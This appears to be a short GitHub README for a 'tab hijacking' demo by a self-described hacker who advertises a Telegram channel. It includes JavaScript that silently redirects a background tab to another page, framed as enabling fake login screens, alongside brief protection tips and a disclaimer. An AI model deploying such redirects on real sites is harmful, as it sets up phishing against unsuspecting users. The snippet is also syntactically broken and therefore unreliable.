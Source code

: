 # Tab-H1j4ck8
Hi I am MLRUMONHACKER this my telegram channel please join http://t.me/mlrumon
This educational project shows how Tab H1j@cking works — a trick where attackers hijack the original tab after a user opens a new one. It silently redirects the original tab to a different page (e.g., a fake login screen or misleading content) while the user is distracted.

🛡️ How to Protect Yourself
✅ Don’t trust tabs that open automatically
✅ Always check the URL before logging in
🌐 Free Hosting & Subdomain

https://youtu.be/TV8CI3w6PlE

🔁 Example JavaScript Code
You can test it in y0ur 0wn pr0ject:

let redirectTimer = null;

document.addEventListener('visibilitychange', function () {
  if (document.hidden) {
    console.log("⏳ Tab.");
    redirectTimer = setTimeout(() => {
      window.location.href = http://t.me/mlrumon
    }, 1500); // Redirects after 1.5s
  } else {
    console.log("🛑 Tab is active.");
    clearTimeout(redirectTimer);
  }
});
🎥 Educational Demo

http://t.me/mlrumon

⚠️ Warning: This project is for educational purposes only. Never use it for malicious activities. Always obtain explicit consent before conducting any security tests.
